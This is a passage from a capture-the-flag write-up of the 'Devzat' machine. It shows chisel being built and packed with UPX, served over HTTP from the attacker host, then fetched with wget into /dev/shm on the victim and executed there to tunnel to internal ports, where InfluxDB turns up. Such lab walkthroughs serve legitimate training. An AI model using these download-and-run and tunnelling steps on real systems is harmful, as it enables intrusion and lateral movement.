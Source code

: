 ```bash
# --> port 8086
```

> **Attacker Machine**:

```bash
git clone https://github.com/jpillora/chisel.git
go build -ldflags "-s -w" .
du -hc chisel         # --> 8.1M
upx chisel
du -hc chisel         # --> 3.0M
python3 -m http.server 80
```

> **Victime Machine**:

```bash
cd /dev/shm
wget http://10.10.14.29/chisel
chmod +x chisel
./chisel            # :(
```

<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_46.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_47.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_48.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_49.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/devzat_writeup/Devzat_50.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

If I download **[chisel_1.7.6](https://github.com/jpillora/chisel/releases/tag/v1.7.6){:target="_blank"}** it works correctly on the victim machine. I create the necessary tunnels so that the internal ports that I found are accessible from my machine and with `nmap` I see the services and versions that I have to face. In one is running an **InfluxDB** and in the other, a service similar to the one on port **8000**.

> **InfluxDB** is an open-source time series database (TSDB) developed by the company InfluxData. It is written in the Go programming language for storage and retrieval of time series data in fields such as operations monitoring, application metrics, Internet of Things sensor data, and real-time analytics. It also has support for processing data from Graphite.

> **Attacker Machine**:
